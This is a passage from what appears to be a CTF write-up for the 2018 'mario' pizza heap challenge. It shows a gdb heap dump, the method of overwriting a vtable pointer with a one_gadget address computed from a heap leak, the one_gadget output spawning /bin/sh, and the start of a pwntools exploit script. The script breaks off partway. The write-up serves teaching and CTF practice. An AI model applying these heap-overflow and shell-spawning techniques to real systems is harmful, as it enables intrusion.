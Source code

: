 ```
0x000056377948c240│+0x0110: 0x000056377948be00  →  0x0000000000000000
0x000056377948c248│+0x0118: 0x0000000000000021 ("!"?)
0x000056377948c250│+0x0120: 0x0030308d8d9ff0e0
0x000056377948c258│+0x0128: 0x00007fa24363fb78  →  0x000056377948d940  →  0x0000000000000000
0x000056377948c260│+0x0130: 0x000056377948c030  →  0x0000000000000000
0x000056377948c268│+0x0138: 0x0000000000000021 ("!"?)
```

So we can see at offset `0xa0` (`160` bytes away) is a pointer, to a vtable function address. This is totally within the range of our `300` byte overflow, and we can place the oneshot gadget at the start of overflow, and use the heap infoleak to calculate the address of where the oneshot gadget is (for this iteration, the heap infoleak is `0x56377948d0a0` and the onegadget location would be at `0x000056377948c130` so the offset is `0x000056377948c130 - 0x56377948d0a0 = -0xf70`).

With that, we can just send the oneshot gadget, followed by `152` (`0xa0 - 8 = 152`) bytes of data, followed by a pointer to the oneshot gadget which will overflow the vtable function pointer. At that point we can just admire the pizzas, which will trigger the oneshot gadget. Also to find the oneshot gadget, we can just use this tool https://github.com/david942j/one_gadget:

```
$ one_gadget libc.so.6 
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

### Eploit

I would like to say thanks to the person who made the writeup this is based off of. Putting it all together, we get this exploit:
```
# This exploit is based off of: https://raywang.tech/2018/05/14/DEF-CON-Quals-2018-It-s-a-Me/

from pwn import *

target = process('./mario', env = {"LD_PRELOAD": "./libc.so.6"})
gdb.attach(target, gdbscript = 'entry-break')

# These are just the string values for the tomato / pineapple emojus
pineapple = p32(0x8d8d9ff0)
tomato = p32(0x858d9ff0)

# Functions to deal with the IO with the code

def newCustomer(name):
    print target.recvuntil("Choice: ")
    target.sendline("N")
    print target.recvuntil("Hello, what's your name? ")
    target.sendline(name)

def orderPizzas(ingr):
    print target.recvuntil("Choice: ")
    target.sendline("O")
```